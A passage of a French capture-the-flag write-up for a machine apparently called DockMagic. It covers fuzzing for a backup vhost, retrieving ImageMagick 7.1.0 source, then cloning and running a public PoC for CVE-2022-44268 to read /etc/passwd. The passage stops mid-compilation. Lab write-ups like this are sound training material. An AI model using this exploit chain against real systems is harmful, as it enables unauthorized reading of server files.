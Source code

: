 - `-fs 17406` - Filtre les réponses par taille
  - `-fs` = Filter Size
  - Ignore les réponses de exactement `17406` octets
  - Permet d'éliminer les **faux positifs** qui retournent toujours la même page

Donc maintenant nous avons trouvé le `backup`, nous devons l'ajouter de nouveau dans le `/etc/hosts` pour y accéder et voici ce qu'on voit :

![backup empman](/assets/img/posts/DockMagic/backup.png)

On peut télécharger ce fichier zip et le `unzip` sur notre machine et voici que qu'on y trouve avec un **ls**

```bash
aclocal.m4     configure            Install-unix.txt     magick.sh.in   NOTICE          tests
api_examples   configure.ac         Install-vms.txt      Magickshr.opt  PerlMagick      TODO
app-image      filters              Install-windows.txt  MagickWand     QuickStart.txt  utilities
AUTHORS.txt    ImageMagick.spec.in  LICENSE              Make.com       README.md       winpath.sh
coders         images               m4                   Makefile.am    README.txt      www
common.shi.in  index.html           Magick++             Makefile.in    scripts
config         Install-mac.txt      MagickCore           NEWS.txt       SECURITY.md
```

Et dans le `README.md` on peut y voir ceci:

```bash
The current release is the ImageMagick 7.1.0 series. It runs on Linux, Windows, macOS X, iOS, Android OS, and others.
```

En cherchant un peut sur ce qu'il y a sur internet autour de ImageMagick on peut notamment y trouver un PoC juste ici [CVE-2022-44268](https://git.rotfl.io/v/CVE-2022-44268) et on y voit comment l'utiliser et l'installer pour l'exploiter

Donc dans un premier temps on clone le repo `git clone https://github.com/voidz0r/CVE-2022-44268`

Ensuite on peut lancer le projet : `cargo run "/etc/passwd"`

Maintenant que je l'ai lancé voici ce que ça m'affiche :

```bash
└─$ cargo run "/ect/passwd"
    Updating crates.io index
  Downloaded miniz_oxide v0.6.2
  Downloaded bitflags v1.3.2
  Downloaded adler v1.0.2
  Downloaded crc32fast v1.3.2
  Downloaded cfg-if v1.0.0
  Downloaded hex v0.4.3
  Downloaded png v0.17.7
  Downloaded flate2 v1.0.25
  Downloaded 8 crates (294.4KiB) in 0.17s
   Compiling crc32fast v1.3.2
   Compiling cfg-if v1.0.0
   Compiling adler v1.0.2
   Compiling bitflags v1.3.2
   Compiling hex v0.4.3
   Compiling miniz_oxide v0.6.2
   Compiling flate2 v1.0.25
   Compiling png v0.17.7
```